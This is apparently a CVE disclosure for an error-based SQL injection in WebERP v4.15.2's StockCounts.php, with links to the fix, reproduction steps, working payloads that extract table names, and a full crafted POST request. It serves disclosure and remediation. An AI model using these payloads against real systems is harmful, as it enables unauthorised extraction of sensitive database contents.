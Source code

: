 # CVE-2025-46052

---

## SQL Injection


An error-based SQL Injection (SQLi) vulnerability in WebERP v4.15.2 allows attackers to execute arbitrary SQL commands and extract sensitive data by injecting a crafted payload into the DEL form field within a POST request to /StockCounts.php

* Vulnerable Endpoint: /StockCounts.php
* Vulnerable Param: name
* Payload: 
```
8' AND EXTRACTVALUE(1,CONCAT(0x7e,(SELECT table_name FROM information_schema.tables WHERE table_schema='weberp' LIMIT 1 OFFSET 0)))--
```

---

## Fix

Vulnerable StockCounts.php:
https://github.com/timschofield/webERP/blob/5460e51b04a7efc2340303bcada4803523a34bfe/StockCounts.php#L357

Remediated StockCounts.php:
https://github.com/timschofield/webERP/pull/401/commits/f325591313977db991a3b361b0dc801cfc180274


---

### Steps to reproduce:

1.) Authenticate as Accountant user.

2.) Proceed to [http://localhost:8083/StockCounts.php](http://localhost:8083/StockCounts.php)

3.) View entered counts:
![Pasted image 20250513102810](https://github.com/user-attachments/assets/d888341b-ccb3-4213-9d10-45b8a82ca91a)
![Pasted image 20250513102816](https://github.com/user-attachments/assets/9eb13250-5ae8-4ef3-a670-4ea82e626770)

4.) Select Delete and intercept the request:
![Pasted image 20250513102836](https://github.com/user-attachments/assets/86576403-7f3a-44ac-9732-686eaf6030cd)

5.) Append a ‘ and observe the database error:
![Pasted image 20250513102849](https://github.com/user-attachments/assets/382a63af-ce77-4c20-b100-2170b43b21b9)

6.) Use the following payload to get the database name via error based SQLi:

```
' AND EXTRACTVALUE(1,CONCAT(1,1,(MID((IFNULL(CAST(a() AS NCHAR),1)),1,1)),1)) AND '1'='1
```

![Pasted image 20250513102911](https://github.com/user-attachments/assets/9c76d1c3-6796-4076-bd4d-f5d69274caae)

7.) Use the following payload to get the table names within the weberp database by using the following payload:

```
8' AND EXTRACTVALUE(1,CONCAT(0x7e,(SELECT table_name FROM information_schema.tables WHERE table_schema='weberp' LIMIT 1 OFFSET 0)))--
```

![Pasted image 20250513102935](https://github.com/user-attachments/assets/3007b077-c7e3-4d9d-b5fa-4e55f4f08e6e)

```
8' AND EXTRACTVALUE(1,CONCAT(0x7e,(SELECT table_name FROM information_schema.tables WHERE table_schema='weberp' LIMIT 1 OFFSET 1)))--
```

![Pasted image 20250513102952](https://github.com/user-attachments/assets/6a5e1cc4-5d14-4264-b660-3ee8dfb23ab6)

8.) Automate this process with SQLMap:

![Pasted image 20250513103007](https://github.com/user-attachments/assets/0139f549-0da8-4019-9ed7-0daecf632583)


---

### Vulnerable Request:

```
POST /StockCounts.php HTTP/1.1
Host: localhost:8083
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----geckoformboundaryd81c9974b5c6e982d498cb288f81b205
Content-Length: 689
Origin: http://localhost:8083
Connection: close
Referer: http://localhost:8083/StockCounts.php?&Action=View
Cookie: <cookie>
Upgrade-Insecure-Requests: 1
Priority: u=0, i

------geckoformboundaryd81c9974b5c6e982d498cb288f81b205
Content-Disposition: form-data; name="FormID"

cf945861690e4c3e30286ce15ec036c814414b48
------geckoformboundaryd81c9974b5c6e982d498cb288f81b205
Content-Disposition: form-data; name="Action"

View
------geckoformboundaryd81c9974b5c6e982d498cb288f81b205
Content-Disposition: form-data; name="DEL[8' AND EXTRACTVALUE(1,CONCAT(0x7e,(SELECT table_name FROM information_schema.tables WHERE table_schema='weberp' LIMIT 1 OFFSET 0)))-- ]"

on
------geckoformboundaryd81c9974b5c6e982d498cb288f81b205
Content-Disposition: form-data; name="SubmitChanges"

Save Changes
------geckoformboundaryd81c9974b5c6e982d498cb288f81b205--
```






